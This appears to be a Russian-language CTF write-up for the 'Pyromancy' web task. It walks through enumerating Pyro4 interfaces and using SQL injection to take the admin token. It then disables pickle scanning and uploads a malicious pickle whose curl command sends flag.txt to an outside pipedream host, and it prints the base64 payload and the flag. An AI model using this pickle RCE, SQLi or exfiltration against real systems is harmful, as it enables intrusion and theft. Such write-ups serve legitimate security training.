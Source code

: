 # Pyromancy | easy | web

## Информация

> Какие-то очередные "стартаперы" предложили нам внедрить их решение. Надо бы проверить его на безопасность...
> PS - название файла flag.txt
> http://5.1.53.43:5645/
> 5.1.53.43:5643
> 5.1.53.43:5644

## Деплой

```
cd deploy
docker-compose up --build -d
```

## Описание

Необходимо обнаружить и проэксплуатировать уязвимые функции интерфейсов Pyro4, используя информацию, предоставленную на веб-части таска и в документации к Pyro4.

## Решение

1. На сайте заходим в документацию, где видим использование Pyro4, отсюда же видим список открытых функций. 

2. Изучив документацию к Pyro4, можно обнаружить инстурменты для управления сервером разрешения имен Pyro4. Используем его на данных портах, чтобы получить список доступных интерфейсов:
```bash
python3 -m Pyro4.nsc -n 5.1.53.43 -p 5643 list
#или
pyro4-nsc -n 5.1.53.43 -p 5643 list

#--------START LIST 
#Private --> PYRO:PrivateFunctions@0.0.0.0:5644
#Public --> PYRO:PublicFunctions@0.0.0.0:5644
#Pyro.NameServer --> PYRO:Pyro.NameServer@l0.0.0.0:9090
#    metadata: ['class:Pyro4.naming.NameServer']
#--------END LIST 
``` 


3. На http://5.1.53.43:5645/docs перичислены функции доступные на интерфейсе Public. Особое внимание стоит PrintInfo(). Для взаимодействия с сервером напишем небольшой клиент.
```python
import pyro4
public = "PYRO:PublicFunctions@5.1.53.43:5644"
private = "PYRO:PrivateFunctions@5.1.53.43:5644"
public_proxed = Pyro4.Proxy(public)
private_proxed = Pyro4.Proxy(private)
print(public_proxed.PrintInfo())
```

```bash
python3 client.py

# Hi, this is the Pyro project object management server. 
# If you registered at the website, you can manage your serialized objects here.
# Please consider, that not all of functional is implemented
# The functions are: 
# PrintInfo() - Returns this message
# CreateFreeUser() - Creates free user and returns it's token
# PutObject(unique_token:string, object:b64string ) - puts your object into db
# GetObjectList(unique_token:string) - returns your objects
# LoadObject(unique_token:string, object_name:string) - not implemented
# RemoveObject(unique_token:string, object_name:string) - not implemented
# StartObjectServer(unique_token:string, object_name:string) - not implemented
```

4. По аналогии с Public, можно попробовать вызвать PrintInfo() на интерфейсе Private:
```python
#...
print(private_proxed.PrintInfo())
```

```bash
python3 client.py

# Hi pal, i've temporarly disabled authentication here to add some of our objects from vacation
# Please don't forget to enable it again

# Hi, this is the Pyro project object management server administrative interface. 
# Be aware, that some functions can cause vulnerabilities
# Please consider, that not all of functional is implemented here, use configuration file to manage them
# The available functions are: 
# PrintInfo() - Returns this message
# DisablePickleCheck(unique_token:string) - Disables picklescan checking
# ForceRestartObject(object_uuid:uuid4) - Force Restarts object (better use local menu)
# ForceRemoveObject(object_uuid:uuid4) - Force remove object (better use local menu)
# Chcfg(cfgname:string, cfgvalue:json) - Remotely change configuration, changes may require restart (better use local menu)
```

5. Среди методов интерфейса замечаем "DisablePickleCheck", который отключает проверку пиклов перед загрузкой, но он требует токен администратора.
Функция GetObjectList возвращает объекты пользователя по его токену. Все условия располагают к SQLi - ее и пробуем обнаружить и проэксплуатировать, что
```python
#...
print(public_proxed.GetObjectList("b7482935-4ed1-4f53-b123-442d49b3c2b6' UNION SELECT uid FROM users where username='admin'--"))
```

```bash
python3 client.py
#[(None,), ('775b3ad3-b3d5-4d57-a5af-868b42d46fab',)]
```

6. Используя полученый токен администратора отключаем picklescan и загружаем пейлоуд, предварительно его собрав и получаем отстук с флагом на веб-сервере или RCE-шимся на тачку:
```python
#payload.py
import pickle
import os
import base64
class MaliciousPayload:
    def __reduce__(self):
        return (os.system, ('curl https://eo2vivpybd0wl6h.m.pipedream.net/$(cat flag.txt)',))
        #return (print, ('abcd',))
payload = MaliciousPayload()
serialized_payload = pickle.dumps(payload)
print(base64.urlsafe_b64encode(serialized_payload))
```

```python
#client.py
#...
print(private_proxed.DisablePickleCheck("775b3ad3-b3d5-4d57-a5af-868b42d46fab"))
print(public_proxed.PutObject("775b3ad3-b3d5-4d57-a5af-868b42d46fab","gASVVwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDxjdXJsIGh0dHBzOi8vZW8ydml2cHliZDB3bDZoLm0ucGlwZWRyZWFtLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4="))
```

## Флаг

`UralCTF{3mbr4c3_7h3_fl4m3}`

